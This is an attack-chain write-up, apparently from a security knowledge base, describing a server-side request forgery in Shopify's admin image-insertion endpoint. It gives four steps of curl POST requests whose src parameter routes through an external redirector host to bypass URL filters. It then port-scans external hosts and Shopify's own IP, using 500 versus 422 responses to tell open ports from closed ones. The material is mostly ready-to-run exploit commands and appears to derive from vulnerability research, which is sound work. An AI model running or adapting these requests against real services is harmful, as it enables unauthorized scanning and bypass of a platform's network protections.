

---
tags:
  - ssrf
  - port-scanning
  - shopify
  - redirection-bypass
type: attack_chain
tools:
  - '[[tools/Wireshark]]'
tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Test-Basic-URL-Validation-in-Shopify-Image-Insertion]]'
  - '[[procedures/Bypass-URL-Filters-with-HTTP-Redirection-in-SSRF]]'
  - '[[procedures/Perform-Port-Scanning-via-SSRF-Redirects]]'
  - '[[procedures/Verify-Internal-Port-Scanning-on-Shopify-IP]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Network Service Scanning]]'
updated_at: '2025-12-14T04:39:02.434Z'
description: >-
  Multi-stage SSRF attack exploiting Shopify's image insertion endpoint to
  perform port scanning on arbitrary hosts from the internal network.
skill_level: intermediate
impact_level: high
id: 210b1bfb-b400-46db-a8a6-732e8a5705e6
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Network Service Scanning]]'
---
# SSRF Port Scanning via Shopify Insert Image Feature Redirection Bypass

Multi-stage attack chain demonstrating SSRF exploitation in Shopify's 'Insert Image' feature to bypass URL filters and perform port scanning on external and internal hosts from Shopify's network.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Wireshark]]
- Browser or HTTP client like curl for sending requests

### Target Environment

- Shopify admin panel access (authenticated session)
- Target: Shopify store admin at /admin/settings/files.json
- Required services/ports: HTTP/HTTPS on ports 80/443 for initial access
- Network access requirements: Internet connectivity to external redirectors and targets

### Initial Access Requirements

- Valid Shopify admin credentials or session cookies
- CSRF token for POST requests
- No prior internal access needed; exploits public-facing endpoint

## Detailed Attack Procedures

### Step 1: Identify Endpoint and Test Basic URL Validation
procedure: [[procedures/Test-Basic-URL-Validation-in-Shopify-Image-Insertion]]

**Objective**: Discover the image insertion endpoint and validate initial URL scheme/port restrictions.

**Instructions**: Authenticate to the Shopify admin and send a POST request to /admin/settings/files.json using [[commands/test-basic-url-validation]] to test non-standard URLs.

```bash
curl -X POST 'https://test-4925.myshopify.com/admin/settings/files.json' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'X-CSRF-Token: F7cvLpquxqr+rFmnGVFhNEK6rV8njtebHikevxGlLJA=' \
  -H 'Cookie: COOKIES' \
  -d 'src=http://example.com:8080/image.jpg'
```

**Expected Output**: HTTP/1.1 422 Unprocessable Entity for non-HTTP/HTTPS or non-standard ports.

**Success Indicators**:
- 422 response confirms validation filters
- No image insertion for invalid URLs

### Step 2: Bypass URL Filters Using HTTP Redirection
procedure: [[procedures/Bypass-URL-Filters-with-HTTP-Redirection-in-SSRF]]

**Objective**: Circumvent scheme and port restrictions by leveraging an external redirector.

**Instructions**: Craft a src parameter pointing to an external server that redirects to the target URL, then send via [[commands/bypass-url-filters-with-redirection]] to /admin/settings/files.json.

```bash
curl -X POST 'https://test-4925.myshopify.com/admin/settings/files.json' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'X-CSRF-Token: F7cvLpquxqr+rFmnGVFhNEK6rV8njtebHikevxGlLJA=' \
  -H 'Cookie: COOKIES' \
  -d 'src=http%3A%2F%2Fhettoteam.tk/r.php?r=http://hettoteam.tk:21'
```

**Expected Output**: Server follows redirect; 500 if port open, 422 if closed, without initial validation blocking.

**Success Indicators**:
- Request succeeds despite non-standard port in redirect target
- Evidence of server-side connection in response codes

### Step 3: Perform Port Scanning by Observing Server Responses
procedure: [[procedures/Perform-Port-Scanning-via-SSRF-Redirects]]

**Objective**: Scan ports on a target host like scanme.nmap.org by differentiating response codes.

**Instructions**: Iterate over ports using redirect URLs in src parameter with [[commands/perform-port-scan-on-external-host]] to /admin/settings/files.json, testing open (e.g., 22) vs closed (e.g., 1) ports.

```bash
# For closed port 1
curl -X POST 'https://test-4925.myshopify.com/admin/settings/files.json' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'X-CSRF-Token: F7cvLpquxqr+rFmnGVFhNEK6rV8njtebHikevxGlLJA=' \
  -H 'Cookie: COOKIES' \
  -d 'src=http%3A%2F%2Fhettoteam.tk/r.php?r=http://scanme.nmap.org:1'

# For open port 22
curl -X POST 'https://test-4925.myshopify.com/admin/settings/files.json' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'X-CSRF-Token: F7cvLpquxqr+rFmnGVFhNEK6rV8njtebHikevxGlLJA=' \
  -H 'Cookie: COOKIES' \
  -d 'src=http%3A%2F%2Fhettoteam.tk/r.php?r=http://scanme.nmap.org:22'
```

**Expected Output**: 422 for closed ports, 500 for open ports.

**Success Indicators**:
- Consistent 500 responses for known open ports
- 422 for closed ports, indicating successful internal connections

### Step 4: Verify Scanning on Shopify's Own IP
procedure: [[procedures/Verify-Internal-Port-Scanning-on-Shopify-IP]]

**Objective**: Confirm SSRF allows scanning of Shopify's internal services via external IP.

**Instructions**: Target Shopify's external IP (23.227.55.1) with redirects for open (22) and closed (2) ports using [[commands/verify-internal-scan-on-shopify-ip]].

```bash
# Open port 22
curl -X POST 'https://test-4925.myshopify.com/admin/settings/files.json' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'X-CSRF-Token: F7cvLpquxqr+rFmnGVFhNEK6rV8njtebHikevxGlLJA=' \
  -H 'Cookie: COOKIES' \
  -d 'src=http://hettoteam.tk/r.php?r=http://23.227.55.1:22/111111111'

# Closed port 2
curl -X POST 'https://test-4925.myshopify.com/admin/settings/files.json' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'X-CSRF-Token: F7cvLpquxqr+rFmnGVFhNEK6rV8njtebHikevxGlLJA=' \
  -H 'Cookie: COOKIES' \
  -d 'src=http://hettoteam.tk/r.php?r=http://23.227.55.1:2/111111111'
```

**Expected Output**: 500 for open internal ports, 422 for closed, bypassing external firewalls.

**Success Indicators**:
- Detection of internally open ports not visible externally
- Confirmation of SSRF persistence post-fix attempts

## Attack Chain Summary

### Key Achievements

1. Bypassed URL validation to enable SSRF via HTTP redirects
2. Performed port scanning on external hosts like scanme.nmap.org
3. Scanned internal Shopify services, revealing firewall-bypassing access
4. Demonstrated impact on production environment security

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Network Service Scanning]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Reconnaissance]]

---

*Last updated: 2023-10-01T00:00:00Z*
